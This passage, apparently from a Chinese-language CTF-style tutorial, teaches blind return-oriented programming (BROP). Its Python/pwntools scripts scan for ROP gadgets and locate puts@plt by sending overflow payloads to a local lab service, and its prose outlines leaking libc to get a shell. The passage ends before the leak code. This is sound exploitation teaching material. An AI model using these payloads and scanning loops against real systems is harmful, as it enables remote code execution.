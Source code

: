 ```python
##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print hex(addr)
    if get_brop_gadget(length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

这样，我们基本得到了brop的gadgets地址0x4007ba

#### 确定puts@plt地址

根据上面，所说我们可以构造如下payload来进行获取

```text
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具体函数如下

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1
```

最后根据plt的结构，选择0x400560作为puts@plt

#### 泄露puts@got地址

在我们可以调用puts函数后，我们可以泄露puts函数的地址，进而获取libc版本，从而获取相关的system函数地址与/bin/sh地址，从而获取shell。我们从0x400000开始泄露0x1000个字节，这已经足够包含程序的plt部分了。代码如下
